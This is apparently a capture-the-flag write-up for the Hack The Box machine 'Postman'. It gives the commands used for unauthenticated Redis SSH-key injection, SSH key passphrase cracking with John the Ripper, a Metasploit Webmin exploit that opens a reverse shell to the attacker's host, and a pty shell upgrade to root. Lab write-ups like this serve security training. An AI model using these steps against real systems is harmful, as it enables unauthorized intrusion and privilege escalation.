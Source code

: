 # POSTMAN

**IP**: `10.10.10.160`

**Difficulty**: Easy/Medium

### Steps
- Run a comprehensive `nmap` scan of all ports, this will identify two running services with vulnerabilities: `redis` and `webmin`

### Exploiting Redis

After scanning Postman, we learn that the port for `redis` is open on `6379` - but does it require authentication?

```
telnet 10.10.10.160 6379
Trying 10.10.10.160...
Connected to 10.10.10.160.
Escape character is '^]'.
```

This means no authentication is required! After some research, you'll see that an exploit applicable to the version of `redis` running exists that takes advantage of this.

*Script Pre-Reqs*:
- `python`
- `redis-cli`

There were a number of variations on this exploit I found written in python, but none worked for me standalone - which could simply be due to interference with other players running their scripts concurrently. Nevertheless, what succeeded on my end was a mashup of sorts, and can be found in `redis-exploit.py`

The gist of what it does, though, is after creating a new `ssh` private/public keypair, we copy the public key to a new file with new lines at the beginning and end before copying it to the open `redis` server via `redis-cli`. Modify the dbfilename, set the config directory to the `ssh` directory for the `redis` user, set the dbfilename to `authorized_keys`, save our changes, then `ssh` into the box using our newly created credentials.

Once you've ssh'd into the Postman host, you can `ls` the values of the `$HOME` directory and identify a user named `Matt` - some more searching will reveal an `id_rsa.bak` file, which is a backup ssh file, in the `/opt` directory. We have read access as the `redis` user, so I copied that file down to my workspace and saw that it's protected using a passphrase.

First, we need to convert the file into a readable format to run it through `john` (a.k.a [John The Ripper](https://github.com/magnumripper/JohnTheRipper))

```
python ssh2john.py id_rsa.bak > id_rsa.hash
```

Now we can run `john` (*NOTE: this is just where my wordlists file is saved*):

```
john --wordlist $HOME/htb/wordlists/rockyou.txt id_rsa.hash
```

It doesn't take long for `john` to crack the password, nice! That means we can switch users on the machine as Matt!

As the `redis` user, we run `sudo su - Matt` and enter our newly cracked password, and voilà, we're Matt now. 

A cursory search of Matt's files will return the `user.txt` file, victory.

### Exploiting Webmin

This one is really straightforward because there's a a `metasploit` exploit for `webmin` that works out of the box, giving you the ability to create a reverse shell. 

In `msfconsole` run `use exploit/linux/http/webmin_packageup_rce` - once in the module you will need to modify some of the options in order to successfully run the exploit:

```
set password ****** ## this is Matt's password that we cracked
set rhosts 10.10.10.160 ## this is the remote IP for the postman box
set ssl true
set username Matt 

set lhost tun0 ## this is our local IP that we're using with openvpn
[no need to change lport unless the default 4444 is in use on your machine]
```

Then type `run` and you will see that it starts a reverse TCP handler, generates a session cookie, then attempts to execute the payload you've configured. If it succeeds, a command shell session is opened. Just hit `Enter` and type `whoami` to verify that you're `root`. (*It might take a couple of seconds for a response*)

We can run a `python` script to give ourselves a better shell:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

This will output the normal terminal UI with a `root@Postman`, and from there we can iterate through the filesystem to find our `root.txt` file. 